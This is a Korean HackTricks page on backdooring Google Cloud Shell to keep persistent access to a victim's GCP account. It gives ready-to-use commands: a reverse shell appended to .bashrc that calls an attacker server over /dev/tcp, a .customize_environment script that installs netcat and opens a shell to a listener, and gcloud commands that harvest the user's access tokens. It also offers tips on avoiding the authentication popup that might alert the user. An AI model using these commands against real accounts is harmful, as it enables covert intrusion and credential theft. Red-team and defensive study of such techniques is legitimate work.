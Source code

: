 # GCP - 클라우드 쉘 지속성

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)에 PR을 제출하여 해킹 기법을 공유하세요.
*
*
*
* &#x20;github 저장소.

</details>

## 클라우드 쉘

자세한 정보는 다음을 참조하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 지속적인 백도어

[**Google Cloud Shell**](https://cloud.google.com/shell/)은 브라우저에서 클라우드 리소스에 대한 명령줄 액세스를 제공하며 관련 비용이 없습니다.

Google의 클라우드 쉘에는 **웹 콘솔** 또는 **`gcloud cloud-shell ssh`**를 실행하여 액세스할 수 있습니다.

이 콘솔에는 공격자에게 흥미로운 기능이 있습니다:

1. **Google Cloud에 액세스할 수 있는 모든 Google 사용자**는 완전히 인증된 클라우드 쉘 인스턴스에 액세스할 수 있습니다 (서비스 계정은 조직의 소유자일지라도 가능).
2. 해당 인스턴스는 **활동이 없는 경우 최소 120일 동안 홈 디렉터리를 유지**합니다.
3. 조직은 해당 인스턴스의 활동을 **모니터링할 수 있는 기능이 없습니다**.

이는 공격자가 사용자의 홈 디렉터리에 백도어를 설치할 수 있으며, 사용자가 최소 120일마다 GC 쉘에 연결하는 한 백도어가 살아남고 공격자는 다음과 같이 실행할 때마다 쉘을 얻을 수 있습니다:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

홈 폴더에는 **`.customize_environment`**라는 다른 파일이 있습니다. 이 파일이 존재하면 사용자가 **클라우드 쉘**에 액세스 할 때마다 실행됩니다(이전 기술과 마찬가지로). 이전의 백도어 또는 다음과 같은 백도어를 삽입하여 사용자가 "자주" 클라우드 쉘을 사용하는 한 지속성을 유지할 수 있습니다:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
중요한 점은 **인증이 필요한 작업을 처음 수행할 때**, 사용자의 브라우저에 팝업 인증 창이 나타난다는 것입니다. 이 창은 명령이 실행되기 전에 수락되어야 합니다. 예기치 않은 팝업이 나타나면 의심을 키울 수 있으며, 사용되는 지속성 방법을 손상시킬 수도 있습니다.
{% endhint %}

이것은 클라우드 쉘에서 `gcloud projects list`를 실행한 후 (공격자로서) 브라우저 사용자 세션에서 본 팝업입니다:


<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

그러나 사용자가 활동적으로 클라우드 쉘을 사용한 경우 팝업이 나타나지 않으며, 다음과 같이 **사용자의 토큰을 수집**할 수 있습니다:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH 연결이 수립되는 방법

기본적으로 다음 3개의 API 호출이 사용됩니다:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (로컬에서 생성한 공개 키를 추가하도록 요청합니다)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (인스턴스를 시작하도록 요청합니다)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud Shell의 IP를 알려줍니다)

하지만 [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 더 자세한 정보를 찾을 수 있습니다.

## 참고 자료

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud**에 PR을 제출하여 여러분의 해킹 기술을 공유하세요.
*
*
* &#x20;github repos.

</details>
